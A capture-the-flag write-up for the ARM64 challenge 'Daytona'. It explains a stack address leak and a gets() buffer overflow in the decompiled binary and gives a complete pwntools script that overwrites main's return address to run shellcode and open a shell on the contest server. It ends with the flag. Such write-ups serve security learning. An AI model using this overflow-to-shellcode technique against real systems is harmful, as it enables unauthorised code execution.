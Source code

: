 # Daytona

```
Cops don't like it when you drive like you're in the Daytona 500 :/

    daytona

nc chal.sunshinectf.games 25606 
```

Decompile in Ghidra:

```c
void vuln(void)
{
  undefined1 auStack_b5 [101];
  char local_40 [64];
  
  // zeroing omitted
  printf("The cops said I was going %llu MPH over the speedlimit :(\nWhat do I tell them??\n",
         auStack_b5);
  gets(local_40);
  return;
}
```

It leaks stack address and has stack overflow via `gets`. If we examine the stack frame, we find that, for the `sp` of `vuln` function:

- sp+0x00 to sp+0x10: saved x29 and x30
- sp+0x10: gets buffer is here

So we cannot override the return address for vuln. However, we can override for main:

- sp+0x50 to sp+0x60: saved x29 and x30 for main

So we can override sp+0x58 to somewhere (e.g. sp+0x60) in the stack, since the binary has NX disabled. Then, we put the shellcode generated by pwntools there to get shell:

```python
from pwn import *

elf = ELF("./daytona")
context.binary = elf
context.terminal = ["tmux", "split-w", "-h"]
context(arch="arm64", os="linux", log_level="debug")

p = remote("chal.sunshinectf.games", 25606)
# p = process("./daytona")
line = p.recvline().decode()
addr = int(line.split()[6])
sp = addr + 0x65
# sp+0x00 to sp+0x10: saved x29 and x30
# sp+0x10: gets buffer
# sp+0x50 to sp+0x60: saved x29 and x30 for main
# override sp+0x58 to jump to shellcode on stack
# put shellcode at sp+0x60
shellcode = shellcraft.sh()
print(shellcode)
# gdb.attach(p)
# pause()
# gets buffer is at sp+0x10
p.sendline(b"A" * 0x48 + p64(sp+0x60) + asm(shellcode))
p.interactive()
```

Flag: `sun{ARM64_shEl1c0de_!s_pr3ttY_n3a7_dOnT_y0u_thInk?}`.
